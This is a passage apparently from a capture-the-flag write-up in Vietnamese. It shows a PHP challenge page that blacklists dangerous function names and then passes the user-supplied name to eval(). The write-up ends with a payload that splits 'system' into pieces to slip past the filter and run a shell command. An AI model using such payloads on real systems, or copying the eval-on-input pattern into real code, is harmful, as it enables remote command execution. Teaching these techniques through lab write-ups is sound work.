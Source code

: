 ```php
  }

  
  foreach ($dangerousFunctions as $func) {
    if (stripos($name, $func) !== false) {
      die("oooooooooooh hacker !");
    }
  }
?>

<!DOCTYPE html>
<html>
<head>
 <style>
    body {
      background-image: url("x.webp");
      background-repeat: no-repeat;
      background-size: cover;
      background-position: center center;
      height: 100vh;
      margin: 0;
      display: flex;
      justify-content: center;
      align-items: center;
    }

    @media (max-width: 768px) {
      body {
        background-size: contain;
      }
    }
  </style> 
</head>
<body>
  <?php
    
   $str = "echo \"<div style='position: fixed; top: 0; left: 0;'><p style='font-size: x-large; color: white;'>Hello " . $name . "!!!</p></div>\";";




    eval($str);
  ?>
</body>
</html>

```

- Sau khi đọc source code ta nhận biết biến name đã đc filter. Chúng ta hãy chú ý đến hàm eval. Từ đấy, tôi có thể injection code như sau: `";$x='sys'.'tem';$x('ls');"`
